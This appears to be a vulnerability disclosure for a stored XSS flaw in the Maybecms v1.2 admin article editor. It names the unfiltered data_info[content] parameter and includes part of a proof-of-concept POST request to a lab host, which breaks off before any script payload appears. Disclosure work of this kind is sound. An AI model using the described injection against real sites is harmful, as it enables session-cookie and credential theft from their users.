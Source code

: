 # Maybecms Backend Stored XSS Vulnerability
## 1. Download Link
https://zdown.chinaz.com/201501/Maybecms_v1.2.rar

## 2. Impact of the Vulnerability
An attacker can exploit this vulnerability to steal sensitive user information, such as session cookies, login credentials, or personal data. Additionally, the attacker can use this vulnerability to perform other malicious actions, such as redirecting users to phishing pages, delivering malware payloads, or implanting malicious programs.

## 3. Affected Version
Maybecms v1.2

## 4. Vulnerability Description
A stored XSS vulnerability exists in the web application management backend of Maybecms. The vulnerability is located in the "Content - Article Management - Add Article - Article Body" section. By injecting XSS code into the article body and saving the article, clicking the "View" button triggers a browser pop-up, confirming the presence of the XSS vulnerability.
<img width="1208" alt="image" src="https://github.com/user-attachments/assets/6829cdbb-6660-4e44-89b7-8c54ec3ead9f" />
<img width="1197" alt="image" src="https://github.com/user-attachments/assets/4af9ad8a-2925-47e8-9843-edb4019787a2" />
<img width="1210" alt="image" src="https://github.com/user-attachments/assets/3d37639a-4bb5-474b-a923-e1a2a1ae368d" />
## 5.Vulnerability Analysis
In the file /maybecms/runtime/maybecms_admin_view/default,article_index.htm.php, the data_info[content] field does not perform regular filtering on the input parameters. The backend fails to filter or escape HTML tags in the user-submitted data_info[content], allowing users to directly submit content containing dangerous attributes such as <script> and onerror. By adding malicious XSS statements to the parameters in the request, the vulnerability can be successfully exploited.
<img width="1213" alt="image" src="https://github.com/user-attachments/assets/5495e940-5384-4ff3-9f45-d669e229974d" />

## 6.Vulnerability Verification Process
```
POST /cve/mb/admin/index.php?u=article-edit HTTP/1.1
Host: 10.211.55.3
Content-Length: 1697
Cache-Control: max-age=0
Origin: http://10.211.55.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryq8YkI3rYLBOnHPic
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.211.55.3/cve/mb/admin/index.php?u=article-edit-cid-1-id-1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=v6ejje8o7oa60asvcmmljvdrf5
Connection: close

------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[pic]"


------WebKitFormBoundaryq8YkI3rYLBOnHPic
Content-Disposition: form-data; name="info[iscomment]"

```